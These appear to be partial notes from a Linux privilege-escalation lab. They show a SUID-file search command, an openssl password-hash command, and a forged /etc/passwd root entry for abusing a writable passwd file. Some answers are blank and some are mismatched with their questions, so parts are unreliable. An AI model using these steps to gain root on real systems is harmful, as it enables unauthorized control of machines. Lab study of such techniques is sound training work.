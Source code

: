 

## Enumeration 


#### Questions


First, lets SSH into the target machine, using the credentials [user3:password.](user3:password.) This is to simulate getting a foothold on the system as a normal privilege user.

What is the target's hostname?  
```
hostname

polobox
```

Look at the output of /etc/passwd how many "user[x]" are there on the system?  
```
hostname

8
```

How many available shells are there on the system?  
```

```

What is the name of the bash script that is set to run every 5 minutes by cron?  
```

```

What critical file has had its permissions changed to allow some users to write to it?  
```

```


## Abusing SUID/GUID Files

To search for files that contain a SUID bit set use this command
```
find / -perm -u=s -type f 2>/dev/null
```

#### Questions


## Exploring Writeable /etc/passwd


```

```
#### Questions

Having read the information above, what direction privilege escalation is this attack?  
```

```

Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: **"openssl passwd -1 -salt [salt] [password]"**
```

```

What is the hash created by using this command with the salt, **"new"** and the password **"123"**?  
```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?